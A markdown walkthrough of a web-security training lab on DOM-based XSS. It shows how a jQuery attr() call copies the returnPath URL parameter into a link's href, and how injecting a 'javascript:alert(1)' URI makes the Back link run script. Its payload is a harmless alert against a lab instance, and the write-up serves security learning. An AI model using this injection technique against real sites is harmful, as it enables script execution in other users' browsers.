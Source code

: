 # DOM XSS in jQuery anchor href atribute sink using locationSearch source

> **Instructions**
>
> This lab contains a [DOM-based cross-site scripting](<../../Cross-site%20Scripting%20(XSS)/Sub_Pages/DOM-based%20XSS.md>) vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`.
>
> To solve this lab, make the "back" link alert `document.cookie`.

Access the **Home Page**, there is an **anchor\** tag `a` named **Submit feedback** with the `href` attribute:

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20locationSearch%20source%20images/Untitled.png)

```html
<a href="/feedback?returnPath=/">Submit feedback</a>
```

Click the anchor **Submit feedback** and you will be routed to the feedback page

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20locationSearch%20source%20images/Untitled%201.png)

Now, press `Ctrl + U` to view the Page’s Source and you would notice 2 points:

- The `href` attribute has been changed to:
  ```html
  <a href="/feedback?returnPath=/feedback">Submit feedback</a>
  <p>|</p>
  ```
- And scroll down below, there is a `script` using \***\*\*\*\*\*\*\***jQuery\***\*\*\*\*\*\*\*** library within the `attr()` function:
  ```jsx
  $(function () {
    $("#backLink").attr(
      "href",
      new URLSearchParams(window.location.search).get("returnPath")
    );
  });
  ```

The script would take the value from `?returnPath=` from the URL and then parse that value into the `href` attribute of the `#backLink` element which is the `< Back` button below

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20locationSearch%20source%20images/Untitled%202.png)

```jsx
<a id="backLink" href="/feedback">
  Back
</a>
```

Click on the URL bar → press `END` to move the pointer to the end of the line → Remove the `/feedback` value and modify it with the malicious script:

```jsx
https://0aba006803a4c6ba81ab116a001400be.web-security-academy.net/feedback?returnPath=javascript:alert(1)
```

Press `Enter` to submit the change → Right-click to inspect the element of anchor ******\*\*******\*\*******\*\*******Submit Feedback******\*\*******\*\*******\*\******* → Verify that the `href` attribute has been changed with the `alert()` function:

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20locationSearch%20source%20images/Untitled%203.png)

```jsx
<a href="/feedback?returnPath=javascript:alert(1)">Submit feedback</a>
```

Do the same with the `< Back` button

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20locationSearch%20source%20images/Untitled%204.png)

```jsx
<a id="backLink" href="javascript:alert(1)">
  Back
</a>
```

Click the `< Back` button and it will display an alert pop-up window

![Untitled](DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20locationSearch%20source%20images/Untitled%205.png)
